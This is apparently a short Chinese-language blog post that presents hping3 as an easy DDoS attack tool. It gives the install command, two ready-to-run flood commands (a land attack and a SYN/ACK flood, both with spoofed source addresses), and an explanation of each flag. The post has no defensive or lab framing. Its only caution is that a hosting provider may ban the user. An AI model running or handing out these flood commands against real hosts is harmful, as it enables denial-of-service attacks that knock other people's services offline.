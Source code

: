 # hping3一个简单易用的ddos攻击工具

## 说明
今天听说不少人被`dd、cc`了，我的博客站太垃圾，没人打 ... 闲来无事随意查了查`ddos`攻击工具，发现了一个`hping3`。
`hping3`是用于生成和解析TCPIP协议数据包的开源工具。它能够产生`ddos攻击包`，`hping3`无法手动设置`MAC`地址，而是根据`IP`地址自动获取。慎用`hping3`，当心服务商封了你的机子 ...

![](https://i.loli.net/2019/04/07/5ca97c476dcf8.png)

## 安装
```
sudo apt install hping3
```

## 使用
```
# land attack
$ sudo hping3 -V -c 10000 -d 120 -S -w 64 --keep -p 80 -s 20000 --flood -a 172.17.14.52 172.17.14.52
# syn/ack attack
$ sudo hping3 -V -c 10000 -d 120 -S -A -w 64 --keep -p 80 -s 80 --flood -a 172.17.14.192 172.17.14.52
# -V verbose
# -c packet count
# -d data size
# -p destPort
# -s srcPort
# -a srcIP
# -S SYN tag
# -A ACK tag
# -w winsize
# -I interface
```
参考：http://man.linuxde.net/hping3